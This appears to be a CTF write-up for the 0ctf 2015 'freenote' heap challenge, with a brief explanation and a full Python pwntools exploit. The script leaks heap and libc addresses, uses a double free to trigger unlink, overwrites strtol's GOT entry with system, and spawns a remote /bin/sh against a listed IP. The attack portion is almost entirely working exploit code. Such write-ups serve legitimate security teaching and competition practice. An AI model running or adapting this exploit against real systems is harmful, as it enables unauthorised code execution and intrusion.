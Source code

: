 ```yaml
---
layout: post
title: pwn.blue-lotus.net freenote writeup
catagories: [ctf]
tags: [ctf, writeup, blue-lotus, pwn, exploit]
---
```


> heap overflow，double free

The pwn challenge in 0ctf2015, `freenote`. The Vul is heap overflow, and no check before `free()`,
so we can use `unlink()` to exploit it. Currently, `unlink()` need satisfy some conditions, so it's hard 
to be exploited. And this challenge's binary slightly diff from the 0ctf one.

Dive into code now:

```python
from pwn import *

#io = process("./freenote_alarmff")
io = remote("166.111.132.132", 10001)
bin = ELF("freenote")
libc = ELF("libc-2.19.so")
#libc = ELF("libc.so.6")

offset = 0xf28

#maybe too many notes, only note0 and note1 be used.
for i in range(10):
    io.sendlineafter(": ", "2")
    io.sendlineafter(": ", "256")
    io.sendlineafter(": ", 255*"A")

for i in range(1, 8, 2):
    io.sendlineafter(": ", "4")
    io.sendlineafter(": ", str(i))

padding = 264*"B"
io.sendlineafter(": ", "3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", "264")
io.sendlineafter(": ", padding)

io.sendlineafter(": ", "1")
data = io.recvrepeat(timeout=1)

pos = data.find(padding)
leak_heap = data[pos+len(padding) + 4: pos + len(padding)+8]
heap_base = u32(leak_heap) - 0xf28
heap_note0 = heap_base + 0x10
print "[+] leaked heap base address: ", hex(heap_base)
print "[+] leaked heap note0 address: ", hex(heap_note0)

padding = p32(256+8) + p32(256) + p32(heap_note0 - 12) + p32(heap_note0 - 8)
padding += (256 - len(padding))*"C"
padding += p32(256) + p32(256+8)
padding += p32(0x01) * 0x30

io.sendline("3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(len(padding)))
io.sendlineafter(": ", padding)

#double free, trige unlink
io.sendlineafter(": ", "4")
io.sendlineafter(": ", "1")

#after double free, note0 -> heapbase + 4, so rewrite it to strtol got
padding = p32(5)
padding += p32(1)
padding += p32(16)
padding += p32(bin.got["strtol"])
padding += (0x1c8 - len(padding)) * "D"
#print "[+] len padding: ", len(padding)

io.sendlineafter(": ", "3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(0x1c8))
io.sendlineafter(": ", padding)

io.sendlineafter(": ", "1")
data = io.recvrepeat(timeout=1)
pos = data.find("0.")
a = data[pos+3: pos+7]
strtol_addr = u32(a)
#print hex(strtol_addr)

system_addr = strtol_addr - libc.symbols["strtol"] + libc.symbols["system"]
print "[+] leak system() address: ", hex(system_addr)

#change strtol to system
io.sendline("3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(16))
io.sendlineafter(": ", p32(system_addr) + "C"*11)

io.sendlineafter(": ", "/bin/sh")
io.interactive()

#flag: 24f494c1-df13-42e4-9061-32eeae2a23a5
#ref: http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up
#ref: https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/
```

* Ref1: <http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up>
* Ref2: <https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/>
